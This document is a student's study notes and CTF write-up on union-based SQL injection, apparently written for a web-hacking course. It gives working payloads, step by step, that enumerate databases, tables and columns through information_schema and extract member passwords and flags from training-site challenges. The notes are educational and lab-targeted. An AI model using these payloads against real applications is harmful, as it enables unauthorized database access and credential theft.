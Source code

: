 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>

a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
* SQL Injection 1 <br>
a. Find out the point of the SQL Injection
```javascript
ad%' and 1=1 #
```
b. Find out the number of columns
```javascript
ad%' order by 4 #
```
C. Find out the number of print column locations
```javascript
ad%' union select 1,2,3,4 #
```
d. Find DB name
```javascript
ad%' union select database(),2,3,4 #  => 	sqli_1
```
e. Find table name
```javascript
ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
```
f. Find column name
```javascript
ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
```
g. Find data
```javascript
ad%' union select flag, 2, 3, 4 from flag_table #
```

* SQL Injection <br>
a. The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
b. The number of columns?
```javascript
admin' order by 6 #
```
c. location?
```javascript
admin' union select 1,2,3,4,5,6 #   => only showing "6"
```
d. database?
```javascript
admin' union select 1,2,3,4,5,database() #    => sqli_5
```
e. table? = flag_honey
```javascript
admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     
```
f. column name? = flag
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #
```
g. data? = kkkkkkk_Not Here!
```javascript
admin' union select 1,2,3,4,5,flag from flag_honey #
```
h. other data?
```javascript
admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
```
- [Find hidden information](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)
i. other data?
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
```
j. other data?
```javascript
admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
```
k. other data?
```javascript
admin' union select 1,2,3,4,5,group_concat(flag) from secret #
```

4. Web development
- mypage
